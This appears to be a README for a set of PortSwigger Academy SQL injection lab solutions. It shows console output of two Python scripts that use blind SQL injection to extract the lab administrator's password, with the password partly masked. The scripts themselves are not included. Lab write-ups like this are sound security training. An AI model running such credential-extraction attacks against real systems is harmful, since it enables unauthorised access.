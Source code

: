 ## SQL Injection Labs - PortSwigger Academy

#### Blind SQL Injection with Conditional Response Lab
```console
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwxwfcbXXXXXXXXXXXX
```

#### Blind SQL Injection with Conditional Errors Lab
```console
$ python blind_sql_injection_conditional_errors.py https://accf1fb81eb3ffbe80ab1379003a0078.web-security-academy.net
Checking users table: True
Checking Administrator account: True
Checking password length: 20
Extracting Admin password: fbut9j14XXXXXXXXXXXX
```
